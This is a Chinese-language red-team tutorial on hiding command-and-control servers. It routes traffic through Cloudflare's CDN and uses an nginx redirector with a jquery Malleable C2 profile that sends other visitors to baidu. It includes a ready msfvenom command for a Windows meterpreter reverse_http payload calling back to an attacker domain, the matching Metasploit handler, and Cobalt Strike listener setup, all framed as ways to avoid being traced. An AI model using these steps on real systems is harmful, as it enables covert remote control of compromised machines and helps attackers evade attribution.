










# C2 实验

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# C2隐藏技术

## CDN

**准备**
- 一台 vultr centos7 机器
- 一个域名
- cloudflare 账号

**挂上 cdn**

在域名购买后配置，cf 中的域名解析，在 cf 中配置 A 记录, 记录 IP 为 vps 地址

名称随意,如下



ping 测试



104.21.49.218 是 cf 的IP

**端口限制**

Cloudflare 支持的 HTTP 端口是：
- 80
- 8080
- 8880
- 2052
- 2082
- 2086
- 2095

Cloudflare 支持的 HTTPS 端口是：
- 443
- 2053
- 2083
- 2087
- 2096
- 8443

**CS**

监听器配置域名



生成payload,在靶机上执行



显示的目标是 172.67.195.13 ,这个IP也是 cloudflare 的 ip

cs上也显示了目标


但是这种情况还是会暴露域名的,如果域名备案或者有其他特征，依然会被溯源。

**MSF**

payload 使用 reverse_http
```
msfvenom -p windows/x64/meterpreter/reverse_http LHOST=<域名> LPORT=80 -f exe > shell.exe
```

起监听
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_http
set lhost <域名>
set LPORT 80
exploit -j
```



---

## 重定向

### nginx 反代 CS

**准备**
- 一台 vultr centos7 机器

**使用 Malleable C2 文件**

访问 https://github.com/threatexpress/malleable-c2 ,下载 jquery-c2.4.0.profile

上传至 CS 目录,检查可用性
```bash
chmod +x c2lint
./c2lint jquery-c2.4.0.profile
```

无误后,运行 cs

**cs 配置监听**



**搭建 nginx**

```bash
wget https://nginx.org/download/nginx-1.16.1.tar.gz
tar -zxvf nginx-1.16.1.tar.gz
cd nginx-1.16.1/
./configure
make
make install
cd /usr/local/nginx/sbin
./nginx
```

注:源代码安装你的默认目录在 /usr/local/nginx 下,配置文件在 conf/ 中,不要搞错了

访问 IP,可以看到一个欢迎页

修改 nginx.conf
```diff
cd /usr/local/nginx/conf
vim nginx.conf

+ location ~*/jquery {
+     proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
+     proxy_pass  http://127.0.0.1:8080;
+ }

+ location / {
+     proxy_pass  http://www.baidu.com/;
+ }
```



重启 nginx
```
cd /usr/local/nginx/sbin && ./nginx -s reload
```

这个时候访问 nginx 服务默认会转到 baidu, 加路径 /jquery-3.3.1.min.js



生成 payload 测试一下





---

**Source & Reference**
- [反溯源-cs和msf域名上线](https://xz.aliyun.com/t/5728)
- [使用CDN隐藏c2流量](http://blog.sern.site:8000/2020/08/03/%E4%BD%BF%E7%94%A8CDN%E9%9A%90%E8%97%8Fc2%E6%B5%81%E9%87%8F/)
- [cobaltstrike配置nginx反向代理](https://mp.weixin.qq.com/s/OK0m9lln5-XjHHkWLwMxHg)
- [Cobalt Strike with CloudFlare](https://mp.weixin.qq.com/s/d6hu8YE-SGy-eruIWOwbXg)
- [博客使用Cloudflare和Nginx的相关配置](https://jayshao.com/cloudflare-nginx-ssl/)
- [利用apache mod_rewrite模块实现重定向技术来隐藏CS的teamserver的原理与实现](https://shanfenglan.blog.csdn.net/article/details/107789018)
